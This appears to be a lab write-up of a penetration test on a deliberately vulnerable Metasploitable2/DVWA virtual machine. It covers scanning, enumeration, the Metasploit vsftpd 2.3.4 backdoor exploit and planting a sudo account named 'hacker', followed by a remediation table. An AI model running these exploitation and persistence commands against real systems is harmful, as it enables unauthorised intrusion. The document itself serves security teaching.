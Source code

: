 # 🛡️ Penetration Testing and Remediation on a Target System

## 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation. 
##

## 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |
##

## 🚀 TASK PERFORMED –
### 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.

Command:

nmap -sS -sV -T4 -Pn 192.168.56.101

Expected Output:

|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|

Open Services Analysis:

FTP (21): Unauthenticated access or vulnerable versions.

SSH (22): Brute-force potential.
###

### 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.

Command:

nikto -h http://192.168.56.101

Expected Output:

+ Server: Apache/2.2.8 (Ubuntu)
  
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  
#### 🔐 Hidden Services Example:
phpinfo.php: Often left during development.

/test/ or /backup/ folders may contain credentials or outdated code.

#### 🛠️ Extra Tool:
dirb http://192.168.56.101


### 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.

Command (Samba Enumeration):

enum4linux -a 192.168.56.101

Expected Output:

Users: admin, user1, guest

Shares: IPC$, ADMIN$, Public, tmp

Machine Name: METASPLOITABLE


### 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor

msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.56.101

run

Expected Output:

Backdoor service has been spawned.

Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)


### 👤 Task 5: Creating A Privileged User
Command inside Shell:

useradd -m hacker

echo 'hacker:hacked123' | chpasswd

usermod -aG sudo hacker

Expected Output:

uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)


### 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)


### 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |


## 📚 CONCLUSION -
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.


## ⚠️ DISCLAIMER -
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
